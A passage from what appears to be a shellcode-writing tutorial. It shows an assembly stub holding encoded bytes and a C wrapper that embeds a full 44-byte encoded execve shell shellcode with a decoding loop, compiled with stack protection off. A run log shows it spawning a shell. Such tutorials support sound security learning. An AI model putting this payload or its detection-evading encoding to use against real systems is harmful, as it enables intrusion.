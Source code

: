     get_shellcode_addr:  
        call ReturnLabel  
        shellcode: db  0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75, 0x3c, 0x6f, 0x76,  
                       0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d  
    

  

#### 3\. Extract shellcode into C wrapper

####  

Why do we need this? The shellcode is defined in the text segment, which means
editing it will crash the program, so we need a C wrapper where the shellcode
is decoded without causing issues.  

    
    
    /*  
     Rot13ExecveSh.c  
    By Abatchy  
    gcc Rot13ExecveSh.c -fno-stack-protector -z execstack -o Rot13ExecveSh.out  
    */  
      
    #include <stdio.h>  
    #include <string.h>  
      
    unsigned char sc[] =   
    "\xeb\x0f\x5e\x31\xc0\xb0\x16\x80"  
    "\x2e\x0d\xfe\xc8\x74\x08\x46\xeb"  
    "\xf6\xe8\xec\xff\xff\xff\x3e\xcd"  
    "\x5d\x96\xef\x75\x3c\x3c\x80\x75"  
    "\x75\x3c\x6f\x76\x7b\x96\xf0\x5d"  
    "\xbd\x18\xda\x8d";  
      
    int main()  
    {  
        printf("Shellcode size: %d\n", strlen(sc));  
        int (*ret)() = (int(*)())sc;  
        ret();  
    }  
    

  
Now compile and run!  
  

    
    
    abatchy@ubuntu:~/Desktop/work$ gcc Rot13ExecveSh.c -fno-stack-protector -z execstack -o Rot13ExecveSh.out  
    abatchy@ubuntu:~/Desktop/work$ ./Rot13ExecveSh.out   
    Shellcode size: 44  
    $ exit  
    

  

#### 4\. Getting rid of hard-coded shellcode size

  
Hard coding the shellcod size in the decoding stub is ugly, and is better to
get rid of it for robustness, how do we do that?  
  